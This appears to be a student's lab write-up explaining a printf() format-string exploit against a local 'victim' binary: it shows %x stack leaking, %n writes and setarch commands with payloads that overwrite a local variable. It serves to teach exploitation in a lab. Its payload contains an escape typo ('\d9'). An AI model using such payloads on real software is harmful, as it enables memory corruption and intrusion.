 # Problem II

This writeup describes solve problem 2.

Mainly used printf() format string vunerability to exploit the problem.


# Problem 1: Overwrite a local variable.

The main idea behind using printf() exploit is that, printf() is defined as a function of variable length arguments.

we can use ```'%x'``` to print the contents of the stack immediately on top printf(). We can also use ```'%n'``` to write the number of bytes into a stack.

If we want to overwrite a local variable, we would need to find the address of that local variable. Then we can use a python input like,
```
setarch `arch` -R ./victim "`python -c "print 'AAAA '+'%x '*100"`"

```
Using this input format, we can see where in the stack the values ```41414141 25207825 20782520 78252078 25207825 20782520 78252078 25207825``` are. Here ```0x41414141``` represents ```AAAA``` and ```0x782520``` repeating pattern represents ```'%x '```.

With that information in mind, we need to figure out the necessary padding. Because lengths of 64bit memeory address are 64bit long. Although the variable memory address might be like ```0x7fffffffd9e4```. Here the memory address is missing 2 leading 0s. We use little-endian format to pad the memory address.
```\xe4\d9\xff\xff\xff\xff\x00\x00```.

We can use
``` 
setarch `arch` -R ./victim "`python -c "print 'AAAA '+'\xe4\d9\xff\xff\xff\xff\x00\x00'+'%x '*100+'%n '"`"

```
to set the number of bytes and modify the value.
